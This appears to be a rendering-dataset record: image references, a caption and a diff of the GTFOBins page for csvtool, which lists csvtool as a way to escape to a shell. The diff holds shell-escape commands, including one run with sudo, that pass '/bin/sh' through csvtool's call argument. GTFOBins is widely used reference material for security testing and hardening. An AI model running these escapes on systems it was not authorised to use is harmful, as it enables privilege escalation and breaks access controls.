

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/csvtool.md, in a window 1280 px wide. Shown: the part 158-516 px from the top of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

```diff
--- a/_gtfobins/csvtool.md
+++ b/_gtfobins/csvtool.md
@@ -1,7 +1,7 @@
 ---
 functions:
   shell:
-    - code: csvtool call '/bin/sh -p;false' /etc/passwd
+    - code: csvtool call '/bin/sh;false' /etc/passwd
   sudo:
-    - code: sudo csvtool call '/bin/sh -p;false' /etc/passwd
+    - code: sudo csvtool call '/bin/sh;false' /etc/passwd
 ---
```
